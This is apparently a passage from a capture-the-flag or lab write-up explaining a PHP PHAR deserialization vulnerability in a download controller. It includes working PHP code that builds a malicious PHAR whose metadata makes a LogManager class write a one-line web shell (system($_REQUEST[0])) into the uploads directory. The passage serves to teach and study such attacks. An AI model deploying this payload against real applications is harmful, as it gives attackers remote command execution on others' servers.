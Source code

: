 **Why this is dangerous**

- If an attacker can control the manifest metadata (e.g., by uploading a crafted PHAR) and the application performs a filesystem operation on that PHAR, PHP will unserialize attacker-controlled data. That can call magic methods (`__wakeup`, `__destruct`, `__unserialize`, etc.) and lead to code execution or other dangerous side effects if vulnerable classes are available in the application.
    

#### Why This Vulnerability Exists

Looking at the download controller code:

```php
if (strpos($file, 'phar://') === 0) {
    $file_path = $file;
    
    if (!file_exists($file_path) || !is_file($file_path)) {
        die('File not found');
    }
    // ... rest of the code
}
```

The `file_exists()` and `is_file()` functions automatically trigger PHAR metadata deserialization when the path starts with `phar://`.

### Creating the PHAR Payload

We need to create a PHAR file that contains a serialized `LogManager` object in its metadata:

```php
<?php

namespace app\classes {
    class LogManager
    {
        public $path = '/var/www/investmenthouse.hc/public/uploads/';
        public $file = 'shell.php';
        public $content = '<?php system($_REQUEST[0]) ?>';
    }
}

namespace {
    @unlink("exploit.phar");

    $phar = new Phar('exploit.phar'); // must have .phar extension
    $phar->startBuffering();
    $phar->addFromString("file.txt", "This is just a dummy file");

    $evil = new app\classes\LogManager();
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->setMetadata($evil);
    $phar->stopBuffering();
}
```
